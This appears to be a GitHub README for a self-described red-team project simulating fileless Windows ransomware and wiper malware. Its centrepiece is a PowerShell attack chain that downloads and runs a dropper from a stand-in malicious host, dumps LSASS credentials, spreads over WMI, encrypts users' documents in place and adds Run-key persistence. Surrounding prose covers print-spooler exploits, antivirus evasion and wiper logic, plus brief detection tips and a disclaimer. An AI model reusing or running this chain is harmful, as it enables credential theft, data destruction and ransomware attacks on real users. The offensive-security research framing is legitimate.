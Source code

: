 
# NSFW: Fileless Hybrid Malware 

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---
## 🔒 Project NSFW: Net Sharing Fileless Wiperware

### Executive Summary

**Project NSFW** is a red/purple team research effort that simulates a **fileless, polymorphic malware** framework tailored for **Windows 11** systems. This framework demonstrates the feasibility of high-impact cyberattacks using only in-memory payloads and built-in system binaries (LOLBins). Inspired by NotPetya-style threats, the project focuses on abusing Windows **print spooler services** for lateral movement and privilege escalation, while emphasizing real-world detection, mitigation, and offensive security education.

---

This repo helps simulate a realistic adversary kill chain using MITRE ATT&CK techniques, entirely fileless and stealthy in nature.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
````
### 🧠 Core Concepts

#### **Net Sharing (Initial Access & Wormability)**

* Exploits Windows print and file sharing via `net.exe`, `net use`, and related LOLBins.
* Implements **PrintNightmare** and **HiveNightmare** vulnerabilities (`CVE-2021-34527`, `CVE-2021-36934`) for privilege escalation and self-propagation.
* Supports automated exploitation via Metasploit (`exploit/windows/printnightmare`) or scripted remote execution using PowerShell/WMI.

#### **Fileless Execution (Stealth & Evasion)**

* All payloads execute from memory using trusted binaries:

  * `rundll32.exe`, `regsvr32.exe`, `mshta.exe`, `cmdkey.exe`, `wmic.exe`
* Avoids writing to disk to minimize forensics footprint and evade AV/EDR tools.
* Embeds shellcode payloads via `.jpg`, `.lnk`, or `.ps1` files for phishing delivery.

#### **Wiper Logic (Final Stage Payload)**

* Final-stage behavior mimics ransomware but prioritizes **destruction over extortion**.
* Uses **DiskCryptor-based encryption** integrated with **Azure AI-powered polymorphic logic** ("Copycat") for code mutation and anomaly bypass.
* Supports optional ransom printout via Windows printer services.

---

### 🧩 Attack Flow Overview

1. **Initial Access** – Spear phishing with embedded `.jpg` or `.lnk`.
2. **Exploit** – Use of Print Spooler or Registry CVEs.
3. **Lateral Movement** – `net use`, WMI, PowerShell remoting.
4. **Persistence** – LOLBins-based scheduled tasks or registry keys.
5. **Payload Execution** – In-memory DLL shellcode injection via Donut/sRDI.
6. **Impact** – NTFS metadata destruction, ransom notes, service disruption.

---

### 🎯 Objectives

| Red Team (Adversary Simulation)         | Blue Team (Defender Insight)                 |
| --------------------------------------- | -------------------------------------------- |
| Simulate polymorphic worm-like malware  | Build detection for fileless attack chains   |
| Demonstrate AV/EDR evasion with LOLBins | Tune threat hunting based on ATT\&CK mapping |
| Trigger controlled system failure       | Apply Sigma/Sysmon for real-time monitoring  |

---

### 🔍 Detection & Mitigation Strategy

* Aligns with MITRE ATT\&CK tactics:

  * `T1055` (Process Injection), `T1562` (Defense Evasion), `T1021` (Remote Services)
* Suggested detection sources:

  * **Sysmon**, **ELK**, **Splunk**, **Sigma Rules**
* Watch for:

  * Spooler restarts, `rundll32` or `regsvr32` anomalies
  * Driver or service installs
  * Memory entropy changes

---

### ⚠️ Legal Disclaimer

All content and code referenced in this project are strictly for **educational** and **authorized penetration testing** purposes. Testing must occur only within **lab environments** and with **explicit permission**. Unauthorized use may violate local or international laws.

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT\&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware – Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

### 📚 Print Spooler CVEs

* [SysNightmare](https://github.com/GossiTheDog/SystemNightmare)
* [PrintSpoofer (Original)](https://github.com/itm4n/PrintSpoofer/tree/master)
* [PrintSpoofer 2](https://github.com/dievus/printspoofer)
* [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)





